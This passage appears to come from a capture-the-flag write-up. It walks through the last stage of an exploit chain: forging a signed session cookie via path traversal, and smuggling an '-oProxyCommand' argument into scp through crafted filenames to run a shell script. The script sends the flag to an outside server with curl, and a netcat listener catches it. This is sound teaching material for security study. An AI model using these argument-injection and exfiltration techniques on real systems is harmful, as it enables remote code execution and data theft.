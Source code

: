 > **Note**: There is a chance this doesn't work the first time, due to random filename ordering in wildcards ('invalid user name' error). Keep trying different filenames until you hit the 50/50 where the option comes first. Do this easily by moving the `anything@` file to `anythingA@` etc.

### Final Payload

All that's left is to write a final payload through the web application to achieve RCE. We will have to create a fake session with the username of `*`:

```json
{
  "cookie":{
    "originalMaxAge":9999999999999,
    "expires":"2341-10-01T08:45:48.759Z",
    "httpOnly":true,
    "path":"/"
  },
  "username":"*",
  "flash":[],
  "__lastAccess":1731250748760
}
```

Upload this as admin to `fake_session.json`, then create a valid signature for the path traversal sessionId to load the username from our uploaded file.

```py
cookie = create_cookie("../files/admin/fake_session", secret)
print(cookie)  # s:../files/admin/fake_session.dW8TbN135258G7QJbU9bxIrbo5i21ARWjseYB6Wl7Bs
```

Then, upload 3 files as this wildcard user:
1. `shell.sh` containing shell commands to exfiltrate the flag, such as `curl $YOUR_SERVER -d "$(/readflag)"`
2. `-oProxyCommand=sh shell.sh @backup:backup.tar.gz` as the injected argument, content may be empty
3. `anything@backup:backup.tar.gz` as the extra required argument to `scp`

Finally, we can trigger a *Restore* operation as this user to execute the payload and receive the flag:

```shell
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received
POST / HTTP/1.1
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 48
Content-Type: application/x-www-form-urlencoded

CTF{PWn1Ng_*bUN*-53s5I0nS_4nD-Pr0XY1nG_c0mM4nDS}
```
